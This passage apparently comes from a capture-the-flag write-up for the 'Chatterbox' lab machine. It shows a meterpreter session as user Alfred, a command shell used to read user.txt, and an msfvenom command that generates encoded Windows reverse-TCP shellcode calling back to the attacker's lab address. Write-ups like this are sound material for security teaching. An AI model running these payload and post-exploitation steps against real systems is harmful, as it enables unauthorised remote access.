    meterpreter > getuid
    Server username: CHATTERBOX\Alfred
    meterpreter > pwd
    C:\Users\Alfred\Music



##### user.txt

From there, we can grab `user.txt`:



    meterpreter > shell
    Process 2244 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\Alfred\Music>cd ..\Desktop

    c:\Users\Alfred\Desktop>dir

     Volume in drive C has no label.
     Volume Serial Number is 9034-6528

     Directory of c:\Users\Alfred\Desktop

    12/10/2017  06:50 PM    <DIR>          .
    12/10/2017  06:50 PM    <DIR>          ..
    12/10/2017  06:50 PM                32 user.txt
                   1 File(s)             32 bytes
                   2 Dir(s)  18,159,497,216 bytes free

    c:\Users\Alfred\Desktop>type user.txt
    type user.txt
    72290246...



#### alternative method: script + windows shell

To generate shellcode, I'll use `msfvenon`, editing the example from the
comment in the POC. I decided to start with a Windows CMD shell:



    root@kali# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.218 LPORT=8081 -e x86/unicode_m
    ixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\
    xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd
    1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\
    xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
    Found 1 compatible encodersi
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 808 (iteration=0)
    x86/unicode_mixed chosen with final size 808
    Payload size: 808 bytes
    Final size of python file: 3872 bytes

